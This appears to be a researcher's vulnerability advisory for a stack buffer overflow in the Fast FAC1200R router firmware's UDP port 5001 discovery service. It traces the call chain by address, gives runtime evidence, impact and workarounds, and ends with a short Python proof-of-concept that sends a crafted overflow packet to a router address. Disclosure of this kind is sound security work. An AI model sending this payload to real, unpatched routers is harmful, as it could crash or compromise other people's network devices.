# FAST FAC1200R copy_msg_element Stack Buffer Overflow Vulnerability

## Overview

Details of a stack buffer overflow vulnerability in the Fast FAC1200R router firmware.

| Firmware Name | Version | Download Link |
|--------------|---------|---------------|
| FAC1200R | V5.0_20201119_1.0.2 | https://service.fastcom.com.cn/download-388.html |

## Product Attribution

- Product: FAC1200R
- Name: 1200M 11AC Dual-band Wireless Router
- Vendor: Fast
- Vendor Website: https://www.fastcom.com.cn/
- Product Page: https://www.fastcom.com.cn/product-specs-1.html
- Firmware Download Page: https://service.fastcom.com.cn/download-388.html




## Vulnerability Details

### 1. Vulnerability Trigger Location

A stack-based buffer overflow vulnerability exists in the `devdiscover` service path of the FAC1200R firmware. When the service handles UDP packets on port 5001, a type-1 advertisement packet can reach `parse_advertisement_frame`, then `parse_msg_element`, and finally a copy-like function at `0x80444928`.

The copy-like function calls the firmware copy routine at `0x803DBE50` while using a length field parsed from the network packet. The destination buffer is a local stack buffer prepared by `parse_advertisement_frame`, with an observed initialization size of 229 bytes. A crafted packet can provide a much larger length value, causing an out-of-bounds stack copy.




### 2. Vulnerability Analysis

The vulnerable processing chain is:

```text
UDP port 5001
  -> devDiscoverHandle              @ 0x80442AA8
  -> protocol_handler               @ 0x80446300
  -> ms_idle_handler                @ 0x80446020
  -> parse_advertisement_frame      @ 0x8044496C
  -> parse_msg_element              @ 0x8044475C
  -> copy-like vulnerable copy      @ 0x80444928
       -> copy routine              @ 0x803DBE50
```

The firmware initializes the devdiscover socket on UDP port 5001 and dispatches received data into `devDiscoverHandle`, which then calls the protocol handler.




`protocol_handler` validates the packet type and magic value, then calls `ms_idle_handler`. For type-1 packets, `ms_idle_handler` enters the advertisement parsing path and calls `parse_advertisement_frame`.






`parse_msg_element` parses message elements from the UDP payload. Later, `parse_advertisement_frame` extracts the element length into `a2` and calls the copy-like function at `0x80444928`. Inside that function, `0x803DBE50` is called with the packet-controlled length.





Runtime evidence confirms that the crafted UDP packet reaches the full chain. At the vulnerable copy-like function, register `a2` contains `0x0000c709`, which is directly derived from the packet length field and is far larger than the 229-byte local stack buffer region used by `parse_advertisement_frame`.




### 3. Impact

An attacker capable of sending crafted UDP packets to the router's devdiscover service on port 5001 can trigger an out-of-bounds stack copy. This may crash the service or potentially allow control-flow hijacking depending on runtime protections and memory layout.

## Workaround

1. Restrict access to UDP port 5001 from untrusted networks.
2. Add an upper-bound check before copying parsed advertisement elements.
3. Reject packets whose element length exceeds the destination buffer size.
4. Replace unbounded copy logic with a length-checked safe copy routine.

## Official Fix

No official patch for this vulnerability has been publicly identified in the current materials. Users should monitor vendor security advisories and upgrade to the latest firmware when available.

## PoC

```python
import socket

# Target: FAC1200R devdiscover service (UDP port 5001)
# Triggers the copy-like stack overflow path.

payload = bytes.fromhex(
    "0101 0e00 e12b 83c7 6359 0345 0000 0005"
    "c709 0977 0008 0000 0005 0004 4141 4141"
    "0041 4141 4141 4141 4141 4141 4141 4140"
    "4116 4141 4141 4141 4144 4141 4141 8000"
    "0000 6441 4141 4141 4141 4241 0141 4141"
    "4141".replace(" ", "")
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(payload, ("192.168.1.1", 5001))
sock.close()
```

## Vulnerability Trigger Process

1. Extract the FAC1200R firmware and obtain the VxWorks main binary and symbol table.
2. Start the FAC1200R firmware under a local VxWorks emulation environment based on LibAFL/QEMU system-mode emulation.
3. Hook the UDP receive path and inject the crafted devdiscover payload into port 5001.
4. Confirm that the packet reaches `0x80442AA8`, `0x80446300`, `0x80446020`, `0x8044496C`, `0x8044475C`, and `0x80444928`.
5. Confirm that `a2=0x0000c709` at `0x80444928`.

## Discoverer

m202472188@hust.edu.cn

xiaobor123
